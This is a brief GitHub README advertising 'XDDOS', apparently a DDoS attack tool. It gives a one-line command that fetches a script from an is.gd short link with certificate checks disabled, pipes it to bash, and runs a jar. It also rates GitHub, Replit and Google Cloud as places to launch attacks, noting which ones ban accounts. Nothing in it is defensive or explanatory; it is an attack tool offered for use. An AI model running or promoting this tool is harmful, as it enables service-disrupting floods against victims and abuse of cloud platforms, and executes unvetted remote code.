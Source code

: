 # XDDOSpower

XDDOS no lag in attacker
cloud google is best XDDOS

[thank AnAverageBeing](https://github.com/AnAverageBeing/XDDOS)
# command
```
curl -sLkO https://is.gd/XDDOS ; bash XDDOS ; cd XDDOS ; java -jar XDDOS.jar

```

# run command in
github (XDDOS best but ban acc)

replit (XDDOS Normal but no ban)

cloud google (super super bad no ban)
